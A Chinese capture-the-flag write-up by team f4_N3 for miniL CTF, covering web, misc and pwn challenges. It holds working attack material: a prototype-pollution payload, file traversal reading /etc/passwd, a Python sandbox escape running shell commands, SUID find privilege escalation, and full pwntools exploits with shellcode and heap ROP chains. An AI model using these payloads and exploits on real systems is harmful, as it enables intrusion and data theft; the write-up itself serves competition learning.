


# miniL CTF WriteUp
队伍:f4_N3
fifker(web)
E=h$\nu$(misc)  
akzdj(pwn)
## web
### 1.GuessOneGuess
**半个非预期了**
根据附件源代码
```javascript
if (totalScore > 1.7976931348623157e308) { 
  message += `\n🏴 ${FLAG}`;
  showFlag = true;
}
```
```javascript
socket.on('punishment-response', (data) => {
  totalScore -= data.score; 
});
```
可以看到一个获得flag和惩罚的逻辑。
在输入错误第99次后，在控制台输入以下代码，把分数调整为-1.8e308。
(其实是因为这里js数字没办法这么大，想要超过e308只能通过无限，这里输入的不是一个数值，而是字符串，不过和预期解原理是一样的)
```javascript
document.getElementById("score-display").textContent = "-1.8e308";
```

随后输入错误最后1次，通过"totalScore -= data.score"，分数被调整为1.8e308。（但是无法显示）

最后再做出一次正确的数字，触发获得flag的逻辑。


### 2.Clickclick
源代码审计后发现，点击10000次后会显示一行js代码：
```javascript
 if ( req.body.point.amount == 0 || req.body.point.amount == null) { delete req.body.point.amount }
```
并且每50次会通过update-amount路由，上传一个json文件来确定你的点击次数。
一开始想的是用0的字符串
```JSON
{
  "type": "set",
  "point": {
    "amount": "0"  
  }
}
```
回显"OK"，看起来不可行。
试了试原型链污染
```JSON
{
  "type": "set",
  "point": {
    "amount": 0,
    "__proto__": {
      "amount": 9999999 
    }
  }
}
```
获得flag。


### 3.Miniup

dirsearch扫描发现/etc/passwd，想到文件穿越，尝试阅读
```javascript
document.getElementById('filename').value = '/etc/passwd';

document.getElementById('viewForm').dispatchEvent(new Event('submit'));
```
发现可以阅读文件后直接阅读源代码**index.php**
network获得回显并base64解码获得源代码。
代码审计
```php
$file_content = @file_get_contents($filename, false, @stream_context_create($_POST['options']));
```

发现这个option是可以随意可控的，直接通过数组构造payload。

上传成功！
根目录没有看到东西，看看环境变量。

获得flag!
最后：这题真的坐牢了好久好久，第一天晚上就拿到源代码了，一直卡在PUT上传这个地方不知道怎么办。

### 4.PyBox(fifker & E=h$\nu$)
白盒，一开始还以为是友善的()
审计代码，首先这里过滤了很多字符，并且对输出长度做了限制：
```python
badchars = "\"'|&`+-*/()[]{}_."
@app.route('/execute',methods=['POST'])
def execute():
    text = request.form['text']
    for char in badchars:
        if char in text:
            return Response("Error", status=400)
    output=safe_exec(CODE.format(text))
    if len(output)>5:
        return Response("Error", status=400)
```
可以知道需要POST /execute发送text=xxx的表单格式才能执行
注意到这一行：
```python
output=safe_exec(CODE.format(text))
```
`safe_exec`函数中有一行代码，把unicode escape转义字符转换为对应的原字符
```python
def safe_exec(code: str, timeout=1):
    code = code.encode().decode('unicode_escape')
```
所以可以把所有代码编码为`\x`+2位16进制数的格式来绕过限制，并且在safe_exec执行代码时都会解析成原来的字符
code部分包含了一个audithook审计，以及print函数，输入的代码通过format函数会直接插入到print函数的占位符
```python
CODE = """
def my_audit_checker(event,args):
    allowed_events = ["import", "time.sleep", "builtins.input", "builtins.input/result"]
    if not list(filter(lambda x: event == x, allowed_events)):
        raise Exception
    if len(args) > 0:
        raise Exception

addaudithook(my_audit_checker)
print("{}")

"""
```
所以我们借鉴一下sql注入的思想，构造`text=");<python code>;#`就能够执行中间的代码，并且可以通过Unicode编码来实现输入换行符，缩进等等，来执行多行代码。
接下来就要开始绕过audithook了，参考了dummykitty的博客，惊奇地发现内置函数什么的是可以直接篡改的，判断条件里有一个list函数，我们可以修改它：

代码中设置了一个safe builtins把原本的builtins给限制了，我们可以想到往上去获取原生的builtins。但是在code之外的ast，限制访问了一堆属性，为了解决这个问题，找到了两函数：

ast限制是字符串层面的，__getattribute__函数可以动态获取属性，绕过ast限制。

通过这个函数，我们可以向ai获得一个大概思路（不过ai非常不靠谱，错误百出）：


```python
#核心代码
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=='_wrap_close'][0]['system']('<shell_code>')
```
这里的`__getattribute__`函数必须得是Object类的，否则会报错。
`__getattribute__`函数实际上有两个参数，但是第一个默认是self所以使用的时候省略了，实际上可以把self替换成别的变量来访问对应的属性
我们先通过`''.__class__`获取`<class 'str'>`，再通过string类的`__init__`函数得到Nonetype类（？），就可以用他的getattribute函数来访问之前那些属性了。
所以我们只需要遍历寻找`_wrap_close`就行了
整体代码如下：


终于弹出计算器了！getshell。
但是getshell后并非一帆风顺，首先读文件就是一个很大的问题，因为我们发现输出结果全会回显到服务器终端，压根看不到。
因此我们想到把结果写入一个txt文件中，然后一点一点读出来。
```Python
");__builtins__['len']=lambda x:0;__builtins__['list']=lambda x:['builtins.input','builtins.input/result','exec','compile','open','os.system'];a='';cls=a.__getattribute__('__class__');base=cls.__init__(a).__getattribute__('__class__').__getattribute__(cls,'__base__');subs=base.__getattribute__(base,'__subclasses__')();
for c in subs:
    if '_wrap_close' in c.__name__:
        g=c.__init__.__getattribute__('__globals__');
        f=g['system']('ls / > 1.txt');
        f=g['__builtins__']['open']('1.txt').read();
        print('f[0:3]')#
```
突然想到我们都有写入的权限了，为什么不直接创建一个静态目录呢。
```powershell
mkdir static
ls /-la > static/ls.txt
```

看到了一个bash文件和flag文件，用相同的方法把flag读入static/flag.txt，发现一片空白，因此被迫去看看entrypoint.sh。

到大门口了还缺把钥匙呢，root用户才有资格读flag文件，但是给了/usr/bin/find，可以轻而易举想到suid find提权。
```
r'/usr/bin/find.-exec cat /m1n1FL@G> static/flag.txt \;
```
获得flag。

## misc
### 1.1麦霸评分(E=h$\nu$)
把样例音频下载下来，文件名为original.wav，然后开始录音，再打开burpsuite的拦截功能进行抓包
把原来编码音频的乱码部分删除，再点击如图所示的`Copy from file`，选择刚刚保存的original.wav

这里要修改一下`Content-Length`，一开始做题的时候没注意，卡了好久
查看文件大小，是3091344B

原来音频的长度是8338，总长度是8555，`8555-8338+3091344=3091561`就是实际的`Content-Length`，修改后发包


### 1.2麦霸评分(fifker)
在网页上可以下载到歌曲的音频。
```javascript
const input = document.createElement('input');
input.type = 'file';
input.accept = 'audio/wav';
input.style.display = 'none';

// 2. 监听文件选择
input.onchange = async (e) => {
    const file = e.target.files[0];
    if (!file) return;

    // 3. 构造 FormData 并上传
    const formData = new FormData();
    formData.append('audio', file, 'recording.wav');

    try {
        const response = await fetch('/compare-recording', {
            method: 'POST',
            body: formData,
        });
        const result = await response.json();
        console.log('上传结果:', result);
    } catch (error) {
        console.error('上传失败:', error);
    }
};

// 4. 触发文件选择
document.body.appendChild(input);
input.click();
```
直接从控制台重新上传上去进行评分。


### 2.1吃豆人(E=h$\nu$)
查看源代码里的js代码，发现以下片段：

所以只要向`/submit_score`用POST方式发送score=10000就可以了


### 2.2吃豆人(fifker)
代码审计，得分条件就是5000分，游戏进行时发送一个json文件。
直接控制台发一个即可。


### 3.MiniForensics I
先把桌面上的b.txt和流量包拖出来。
b.txt里面是一堆坐标，画出来长这样

最底下有两条像下划线一样的和大括号的尖端。
然后进入虚拟机的此电脑，把选项卡上”隐藏的项目“勾选掉，再勾选掉`查看->选项->查看->隐藏受保护的系统文件`，多出了很多隐藏文件夹

打开Recent文件夹

在`nihao`文件夹里有一个ai.rar和pwd.txt，pwd.txt里面说密码由7位数字组成，用ARCHPR爆破出来密码是`1846287`
里面有ssl.log，结合II中的提示`SSLKEYLOGFILE`环境变量，上网搜索可知ssl.log可以用来解密加密过的TLS流量
打开Wireshark，打开`编辑->首选项->Protocols->TLS->(Pre)-Master-Secret log filename`，选择刚刚的ssl.log

然后就会发现下面显示了Decrypted TLS，但是当时眼神不好没看见，以为还需要文件才能解密，所以又卡了好久，唉

找到upload的http流量（上图标记的那个），然后追踪流->TLS Stream

下面那个48位数字的就是D盘Bitlocker密钥
`521433-074470-317097-543499-149259-301488-189849-252032`
点击D盘，在提示框中点击”更多选项“，然后输入密钥

点进去后有一个纯白色为图标，名字为空格的文件夹，当时做题的时候文件夹图标是黑色的

点进去有一个c.txt
把b.txt和c.txt合到一起，因为坐标里面有.5，所以我乘以2再画出来
```python
from PIL import Image
xx=[]
yy=[]
with open (r'b.txt','r') as f:
    dat=f.read().split()
    for p in dat:
        p=p.split(',')
        xy=(int(float(p[0])*2),int(float(p[1])*2))
        xx.append(xy[0])
        yy.append(xy[1])
width=max(xx)-min(xx)+1
height=max(yy)-min(yy)+1
print(width)
print(height)
x0=min(xx)
y0=min(yy)
print(x0)
print(y0)
img=Image.new('RGB',(width,height))
for i in range(len(xx)):
    try:
        img.putpixel((xx[i]-x0,yy[i]-y0),(255,255,255))
    except IndexError:
        print((xx[i],yy[i]))
img.save('flag_fake.png')
img.show()
```

易得 $ a=2b-c $，这样也正好把坐标中的.5去掉了
```python
# a = 2 * b - c
bx=[]
by=[]
cx=[]
cy=[]
with open (r'b.txt','r') as f:
    dat=f.read().split()
    for p in dat:
        p=p.split(',')
        bx.append(float(p[0]))
        by.append(float(p[1]))
with open (r'c.txt','r') as f:
    dat=f.read().split()
    for p in dat:
        p=p.split(',')
        cx.append(float(p[0]))
        cy.append(float(p[1]))
ax=[]
ay=[]
for i in range(len(cx)):
    try:
        ax.append(int(2*bx[i]-cx[i]))
    except IndexError:
        print(i)
for i in range(len(cx)):
    ay.append(int(2*by[i]-cy[i]))
width=max(ax)-min(ax)+1
height=max(ay)-min(ay)+1
print(width)
print(height)
x0=min(ax)
y0=min(ay)
print(x0)
print(y0)
img=Image.new('RGB',(width,height))
for i in range(len(ax)):
    try:
        img.putpixel((ax[i]-x0,ay[i]-y0),(255,255,255))
    except IndexError:
        print((ax[i],ay[i]))
img.save('flag.png')
img.show()
```

把之前b.txt单独画出来两条下划线的部分正好能对上去

## pwn
### 1.postbox
PostScript中有格式化字符串的机会，它和PostMessage的栈是平行的，因此可以在PostMessage中改出114514。一次机会不太够，第一次修改次数到3次，第二次泄露pie以及栈地址，第三次即可改到返回地址。（只改1字节也能大概率过）
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=process('./pwn')
p=remote('192.168.211.1',11841)
#libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p,'b printf')
#pause()
p.recvuntil(b'exit')
p.sendline(b'2')
p.recvuntil(b'contents:')
payload=b'a'*0x2fc+p32(114514)
p.send(payload)
payload =b'aaa%7$hhn'
p.recvuntil(b'contents:')
p.send(payload)
bkd=0x82
p.sendafter(b'You can',b'aaaaaaaa%45$pbbbb%7$p')#8
p.recvuntil(b'aaaaaaaa')
addr=int(p.recv(14),16)
log.debug(hex(addr))
pie=addr-0x1715
bkd=pie+0x1782+1
p.recvuntil('bbbb')
addr=int(p.recv(14),16)
ret=addr+40
log.debug(hex(ret))
payload=('%{}c%16$hhn'.format(bkd&0xff).encode()).ljust(48,b'a')+p64(ret)
p.sendafter(b'You can',payload)#8
p.interactive()
```

### 2.checkin
shellcode空间被分为3个24字节，试了下shellcraft生成的orw刚好72字节，因此手写个短一点的肯定是能塞下3个jmp的。orw一个部分写不下可以拆到下一个部分。
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=process('./pwn')
p=remote('192.168.211.1',14333)
libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p,'b *$rebase(0x15ba)')
#pause()
bss=elf.bss()
shellcode1=asm('''
mov rbx,0x67616c662f2e 
push rbx
push rsp
pop rdi
xor esi, esi
mov al, 2
add rdx,0x20
jmp rdx


''')
shellcode2=asm('''
xor edx,edx
syscall
mov rdi,3              
mov rsi,r12        
mov rdx,0x100               
            
jmp r9
''')
shellcode3=asm('''
xor eax,eax  
syscall
mov edi,1                   
mov rsi,r12
mov rdx,0x100              
mov al,1                   
syscall
''')
p.send(shellcode1)
log.debug(len(shellcode3))
p.send(shellcode2)
p.send(shellcode3)


p.interactive()
```

### 3.easyheap
逆向不难，就是ida抽风把他分两个变量了搞了一会
```c
00000000 chunk           struc ; (sizeof=0x10, mappedto_8)
00000000                                         ; XREF: .bss:chunks/r
00000000 pointer         dq ?                    ; offset
00000008 size            dq ?                    ; XREF: add+130/o
00000008                                         ; edit+BC/o ...
00000010 chunk           ends
```
漏洞在于一个chunk可以delete多次而不判断size。构造两个指针指向同一个堆块再free一个，就可以通过另一个泄露地址。
由于fgets截断，很难直接通过堆泄露environ，这里采用修改_IO_2_1_stdout的指针来泄露。沙箱关了open和openat，其实也导致了不能getshell。这里用openat2替代，配合mprotect执行shellcode。
（2.39打house，打栈迁移的板子真难找啊）
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=process('./pwn')
p=remote('192.168.211.1',2952)
libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p,'b *$rebase(0x191F)')
#pause()
def add(idx,size,data):
    p.recvuntil(b': ')
    p.sendline(b'1')
    p.recvuntil(b': ')
    p.sendline(str(idx).encode())
    p.recvuntil(b':')
    p.sendline(str(size).encode())
    p.recvuntil(b':')
    p.send(data)

def delete(idx):
    p.recvuntil(b': ')
    p.sendline(b'4')
    p.recvuntil(b':')
    p.sendline(str(idx).encode())

def show(idx):
    p.recvuntil(b': ')
    p.sendline(b'3')
    p.recvuntil(b':')
    p.sendline(str(idx).encode())
    p.recvuntil(b': ')
    s=p.recvline()[:-1]
    return s

def edit(idx,data):
    p.recvuntil(b': ')
    p.sendline(b'2')
    p.recvuntil(b': ')
    p.sendline(str(idx).encode())
    p.recvuntil(b': ')
    p.send(data)


add(0,0x40,b'a\n')
delete(0)
add(1,0x40,b'a\n')
delete(0)
s=show(1)
key=u64(s+b'\x00\x00\x00')
heap=key<<12
for i in range(13):
    add(0,0x18,b'a\n')
for i in range(13):
    add(0,0x60,b'a\n')
for i in range(9):
    add(i,0xe0,b'a\n')
add(0,0x18,b'a\n')
for i in range(8):
    delete(i)
delete(8)
for i in range(7):
    add(i,0xe0,b'a'+b'\n')
add(10,0xe0,b'a'+b'\n')
for i in range(7):
    delete(i)
delete(8)
s=show(10)
addr=u64(s+b'\x00\x00')
libc.address=addr-0x203b20

nex =(libc.sym['_IO_2_1_stdout_']-0x30)^key
env=libc.sym['environ']
add(0,0xe0,b'\n')
add(5,0x300,b'a\n')
add(0,0x300,b'a\n')
delete(5)
delete(0)
add(1,0x300,b'a\n')
delete(0)
edit(1,p64(nex)+b'\n')
pop_rdi = next(libc.search(asm('pop rdi;ret;')))
pop_rsi = next(libc.search(asm('pop rsi;ret;')))
pop_rax = next(libc.search(asm('pop rax;ret;')))
pop_rcx = next(libc.search(asm('pop rcx;ret;')))
xchg_edx_eax=libc.address+0x01a7f27
syscall=libc.address+0x98fb6
wfile = libc.sym['_IO_wfile_jumps']
leave_ret = next(libc.search(asm('leave;ret;')))
add(1,0x300,b'deadbeef\n')

add(2,0x300,b'aaaa\n')
payload=p64(0)*6+p64(0xfbad1800)+p64(0)*3+p64(env)+p64(env+0x20)+b'\n'
edit(2,payload)
addr=u64(p.recvuntil(b'\x7f')[-6:]+b'\x00\x00')
log.debug(hex(addr))
ret=addr-0x130-0x8
add(5,0x300,b'\n')
delete(5)
delete(0)
nex=ret^key
edit(1,p64(nex)+b'\n')
add(1,0x300,b'\n')

add(6,0x300,b'\n')
mprotect=libc.sym['mprotect']
payload=p64(0)+p64(pop_rdi)+p64(heap)+p64(pop_rsi)+p64(0x2000)+p64(pop_rax)+p64(0x7)+p64(xchg_edx_eax)+p64(mprotect)+p64(heap+0xc40)
edit(6,payload+b'\n')

shellcode=asm('''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    push 0
    push 0
    push 0
    mov rdx, rsp
    mov r10, 0x18
    push SYS_openat2
    pop rax
    syscall
    mov rdi,3
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
''')
edit(1,shellcode+b'\n')
p.recvuntil(b': ')
p.sendline(b'5')
p.interactive()
```